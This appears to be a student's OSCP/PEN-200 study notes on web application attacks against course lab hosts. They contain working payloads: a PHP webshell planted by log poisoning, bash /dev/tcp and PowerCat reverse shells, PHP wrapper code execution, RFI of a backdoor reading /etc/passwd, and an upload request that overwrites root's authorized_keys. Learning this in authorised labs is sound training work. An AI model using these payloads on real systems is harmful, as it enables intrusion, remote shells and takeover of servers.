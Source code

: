# PEN-200

The certification associate with this course is the **OffSec Certified Professional (OSCP+)**.

{% hint style="success" %}
  Hack Responsibly.

  Always ensure you have explicit permission to access any computer system before using any of the techniques
  contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.
{% endhint %}

> These will be the notes I felt were worth writing down as things I was not completely familiar with and/or were new to me at the time of working through this course.

## Module 9: Common Web Application Attacks

### Directory Traversal

#### Absolute vs Relative Paths

#### Identifying and Exploiting Directory Traversals

#### Encoding Special Characters

### File Inclusion Vulnerabilities

#### Local File Inclusion (LFI)

The difference here is that including a local file will execute it rather than read the contents of it.
Using Log Poisoning with php and LFI, we can execute commands on the web server.

Taking a look at the previous directory traversal vulnerability, let's see what information is stored in the `/var/log/apache2/access.log`.
In the example provided, the User-Agent is stored. Using this information we can pass along a crafted User-Agent to execute commands via a cmd parameter.
Sending to the `index.php?page=admin.php` a crafted user-agent of `User-Agent: <?php echo system($_GET['cmd']); ?>`
Utilizing this string, we can then navigated to the access.log, appending `&cmd=<our command here>` to execute via LFI.

After testing that the cmd parameter works, let's get a reverse shell. We'll need to URL encode the data so it's treated correctly.
A simple reverse shell one-liner in bash: `bash -c "bash -i >& /dev/tcp/my.listener.ip.here/port 0>&1"` would be URL encoded as `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.236%2F1337%200%3E%261%22`
Another example might be `bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.236/1337+0>%261'%22`

#### PHP Wrappers

Include the contents of a file:
- php://filter

Using the PHP filter wrapper in a similar way as previous sections: `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php`
This results in a similar content as requesting admin.php earlier. Using teh PHP filter to encode the content in base64, we can get the content of admin.php.
`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`

Achieve code execution:
- data://
Using the PHP data wrapper to execute commands: `curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`
Some WAFs may filter strings such as system, so we'll base64 the command.
```
$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

#### Remote File Inclusion (RFI)

Kali includes several webshells are `/usr/share/webshells/` that can be used for RFI.

For RFI, you'll need your remote files to be available somewhere. This can easily be done with `python3 -m http.server 80` which will start a listener on port 80 on all your local interfaces. This hosts any files in your current working directory.
Example: `curl http://mountaindesserts.com/meteor/index.php?page=http://your.listener.ip.here/simple-backdoor.php&cmd=cat+/etc/passwd`

### File Upload Vulnerabilities

#### Using Executable Files

Identifying file upload vulnerabilities:
- Can we upload a file in general?
- Is there file extension limitations? Are they case sensitive? Can we use "legacy" extensions? ex. .phps, .php7

#### Using Non-Executable Files

When using non-executable files, we _may_ be able to overwrite important files like `.ssh/authorized_keys` for example.
Example in Burp Suite's Repeater:
```
POST /upload HTTP/1.1
Host: 192.168.241.16:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------39100938162538926675637912586
Content-Length: 386
Origin: http://192.168.241.16:8000
Connection: keep-alive
Referer: http://192.168.241.16:8000/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------39100938162538926675637912586
Content-Disposition: form-data; name="myFile"; filename="../../../../../../../../../../root/.ssh/authorized_keys"
Content-Type: application/octet-stream

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH7b2Apfpf+ynNDsc702r7dotHjS9RH9gF6AvRP9w5SD user@hostname.local

-----------------------------39100938162538926675637912586--

```

### Command Injection

#### OS Command Injection

While communicating with a Windows device vulnerable to command injection, you can use ``(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell`` to determine if you're running commands inside a CMD or PowerShell prompt. This would likely need to be URL encoded.
If inside PowerShell, PowerCat can be used to create a reverse shell. PowerCat is a PowerShell implementation of Netcat included in Kali at `/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1`.
- Example usage of powercat.ps1 via command injection: `IEX (New-Object System.Net.Webclient).DownloadString("http://your.listener.ip.here:port/powercat.ps1");powercat -c your.listener.ip.here -p port -e powershell`
    - Curling that with URL encoding may look like this: `curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2Fyour.listener.ip.here%3Aport%2Fpowercat.ps1%22)%3Bpowercat%20-c%20your.listener.ip.here%20-p%20port%20-e%20powershell' http://your.target.ip.here:port/archive`
